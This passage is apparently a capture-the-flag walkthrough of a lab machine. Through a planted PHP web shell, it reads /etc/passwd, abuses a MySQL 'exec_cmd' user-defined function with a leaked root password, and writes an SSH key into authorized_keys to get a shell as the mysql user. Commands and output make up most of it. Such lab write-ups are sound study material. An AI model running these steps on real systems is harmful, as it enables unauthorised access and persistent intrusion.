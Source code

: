 **From url shell**

`http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=cat%20/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
...
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

* so there is a user `mysql` with `/bin/bash` that means sql database has a user level rights.
* from tar archive i already found creds for mysql database so i can login into.
* i found a User Defined Functions(udf) in mysql -

    `http://10.10.10.207/shop/vqmod/xml/MF6GJ.php?c=mysql -u root -pchangethis -e "select * from mysql.func"`

      name	ret	dl	type
      exec_cmd	0	libmysql.so	function



* so i can use this function `exec_cmd` to execute system commands - 

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('id')"`

      exec_cmd('id') uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\...\0\0\0\0

* get a shell command output but when i try to execute reverse shell it did not worked for me so i put public ssh key in the user's Authorized keys and get a ssh shell as user `mysql`

* verifying `authorized_keys` file location

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('pwd')"`

      exec_cmd('pwd') /var/lib/mysql\n\0\0\0\0\0\0\0\0\0\...\0\0\0\0

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('cd .ssh;ls')"`

      exec_cmd('cd .ssh;ls') authorized_keys\n\0\0\0\0\0\0\0\0\0\...\0\0\0\0

* Put ssh key

      http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('echo ssh-rsa AAAAB3NzaC1y...Nb5q4%2B1LtnZpjM= > ~/.ssh/authorized_keys')"

  * while putting my ssh in the `authorized_keys` it won't worked at first and then i notice in the output that the every plus `+` sign from the ssh key was converted into a white space so i changed every `+` sign into `%2B` that is equivalent to a plus sign to solve this problem.

### USER:mysql shell

`ssh -i mysql mysql@10.10.10.207`
```
mysql@compromised:~$ id
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```
